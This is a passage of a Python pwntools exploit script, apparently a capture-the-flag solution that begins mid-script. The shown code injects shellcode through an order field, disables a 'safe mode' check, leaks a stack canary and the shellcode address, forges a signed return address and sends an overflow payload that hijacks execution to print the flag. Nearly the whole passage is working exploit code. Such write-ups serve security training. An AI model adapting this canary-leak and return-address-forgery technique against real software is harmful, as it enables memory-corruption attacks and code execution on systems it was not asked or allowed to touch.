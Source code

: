 ```python
    shellcraft.exit(0) #Exit carefully the program (optional)
)
proc.success("Done")

proc = log.progress("Sending order value with the shellcode")
addorder("GIMME THE FLAG!", shellcode_payload)
proc.success("Done")

sendcmds(2,0,-1,7)
log.info("Deleted order 0 containing the SAFE MODE value, activated unsafe functions")

sendcmds(4,1)
p.recvuntil(b"Advanced details: ")
shellcode_addr = int(p.recvline(),16)+20
log.info("Get shellcode address: {}".format(hex(shellcode_addr)))

secret = calc_secret()
log.info("Calculated secret: {}".format(hex(secret)))

canary = get_canary()
log.info("Leaked canary: {}".format(hex(canary)))

new_signature = sign_calc(shellcode_addr, secret)
log.info("New return address and base pointer with signature: {}".format(new_signature.hex()))

# Sending the malicious payload
# --> Here there are multiple canaries, so I spammed them here and used as padding
proc = log.progress("Sending malicious payload")
p.sendline(b"A"*10+p64(canary)*3+new_signature)
proc.success("Done")
# "A"*10 = buffer of _readline
# p64(canary)*3 = 3 canaries + padding
# sign_calc(shellcode_addr, secret) = return address signed

p.recvuntil(b"> ") #Wait for the menu

secret_menu = p.recvall().decode()

log.info("FLAG: "+"".join(re.findall(r"flag{.*}",secret_menu))) # Here will be printed and filtered the flag

```
